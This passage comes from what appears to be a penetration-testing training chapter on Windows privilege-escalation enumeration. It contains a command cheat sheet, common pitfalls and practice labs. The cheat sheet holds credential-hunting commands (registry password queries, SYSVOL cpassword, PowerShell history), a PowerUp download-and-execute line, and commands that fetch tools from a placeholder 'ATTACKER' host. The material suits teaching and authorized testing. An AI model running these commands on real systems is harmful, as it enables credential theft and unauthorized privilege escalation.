sc query state= all
sc qc <svc>                                   :: binPath + SERVICE_START_NAME
accesschk.exe -accepteula -uwcqv "Users" *    :: services Users can modify
accesschk.exe -accepteula -quvw "C:\path\svc.exe"  :: binary file perms
icacls "C:\path\svc.exe"
wmic service get Name,PathName,StartMode | findstr /i /v """  :: unquoted paths
```

**Registry**
```cmd
reg query HKLM\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKCU\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultPassword
reg query HKLM /f password /t REG_SZ /s
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run
```

**Scheduled tasks / startup**
```cmd
schtasks /query /fo LIST /v
icacls "C:\Scripts\task.ps1"
dir "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
```

**Credential hunting**
```cmd
dir /s /b C:\unattend.xml C:\Windows\Panther\Unattend.xml
findstr /S /I cpassword %LOGONSERVER%\sysvol\*.xml
findstr /si password *.xml *.ini *.txt *.config
cmdkey /list
type %APPDATA%\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

**Automated tools**
```text
winPEASx64.exe quiet servicesinfo userinfo applicationsinfo log=wp.txt
Seatbelt.exe -group=system -q   |  Seatbelt.exe TokenPrivileges UAC WindowsAutoLogon
PowerUp:      IEX(...DownloadString(...PowerUp.ps1)); Invoke-AllChecks
SharpUp.exe audit
PrivescCheck: . .\PrivescCheck.ps1 ; Invoke-PrivescCheck -Extended
JAWS:         powershell -ep bypass -File jaws-enum.ps1 -OutputFilename jaws.txt
WES-NG (Kali): wes.py systeminfo.txt --exploits-only --impact "Elevation of Privilege"
```

**Tool transfer**
```powershell
iwr http://ATTACKER:8000/tool.exe -OutFile C:\Windows\Temp\t.exe
certutil -urlcache -split -f http://ATTACKER:8000/tool.exe t.exe   # noisier
```

---

## Part 17: Common Pitfalls

- **Trusting tool output without verifying.** WinPEAS/PowerUp flag "writable" paths that a deny-ACE actually blocks. Always confirm with `accesschk`/`icacls` before spending a technique on it.
- **Exploiting before enumerating fully.** Firing a kernel exploit first and BSOD'ing the box — when a quiet service replacement was sitting right there. Build the full ranked plan first.
- **Missing the privilege block.** People run `whoami` (username only) and never `whoami /all`, walking past an enabled `SeImpersonate` that was an instant SYSTEM.
- **Wrong architecture binary.** Running `winPEASx86.exe` on x64 (or vice versa) gives partial/garbled results. Check `System Type` in `systeminfo` first.
- **Only one AlwaysInstallElevated key.** It requires **both** HKLM and HKCU set to `1`; one alone does nothing. Check both.
- **Forgetting UAC.** Being in the Administrators group at *Medium* integrity is not admin rights — you still need a UAC bypass, which is a different problem from "I'm a standard user."
- **Colour-mangled output.** Some reverse shells mangle ANSI colour so every WinPEAS line looks the same. Use `notcolor`/`log=` to a file and read it cleanly, or you will miss the red findings.
- **AV eating the tool.** Dropping `winPEASx64.exe` on a monitored host gets it quarantined and alerts the SOC. Fall back to built-in commands (Parts 3–9) rather than fighting the AV.
- **Not noting what you touched.** Every download and tool execution is telemetry you must report. Keep an indicators log as you go.

---

## Part 18: Practice Labs & Resources

Train each surface in this chapter on targets built specifically for it:

- **TryHackMe — "Windows PrivEsc" (room `windows_privesc`)** and **"Windows PrivEsc Arena"**: purpose-built ranges that walk *every* technique enumerated here — weak service ACL, unquoted path, weak binary perms, AlwaysInstallElevated, autoruns, scheduled tasks, startup, saved creds, token privileges. The single best structured practice for this chapter.
- **TryHackMe — "Enumeration" / "Steel Mountain"**: Steel Mountain escalates via a service-binary replacement — practise the Part-6 service verification and PowerUp `Invoke-AllChecks` flow.
- **HackTheBox — "Optimum," "Bastard," "Devel," "Jerry," "Love," "Servmon"**: classic Windows boxes where the ending is a service/registry/token enumeration finding. "Jerry" and "Love" hinge on service/AlwaysInstallElevated respectively.
- **HackTheBox / Proving Grounds — service-account footholds (IIS/MSSQL)**: any box where you land as `iis apppool\...` or via `xp_cmdshell` — check `whoami /priv` for `SeImpersonate` and practise recognising the token fast-path (execution is Chapter 5, but the *enumeration* recognition is trained here).
- **Proving Grounds Practice — "Algernon," "Nickel," "MedJed"**: Windows LPE via enumerable misconfigurations; good for practising the manual-verification discipline.
- **Sightless / offline — build your own**: create a service with `sc create vulnsvc binPath= "C:\Temp\svc.exe"` and loosen its ACL, set `AlwaysInstallElevated`, and drop an `unattend.xml` — then run WinPEAS, Seatbelt, and PowerUp against your own box and confirm each tool finds what you planted. Nothing teaches the output like seeding the findings yourself.
- **Reference reading**: the PayloadsAllTheThings "Windows - Privilege Escalation" page and the FuzzySecurity "Windows Privilege Escalation Fundamentals" guide are the canonical manual-technique references; keep them open while you work.

Enumerate thoroughly, verify every lead, rank by reliability, and you will almost never need a kernel exploit. Chapter 5 takes the ranked plan you built here and turns the top lead into a SYSTEM shell.
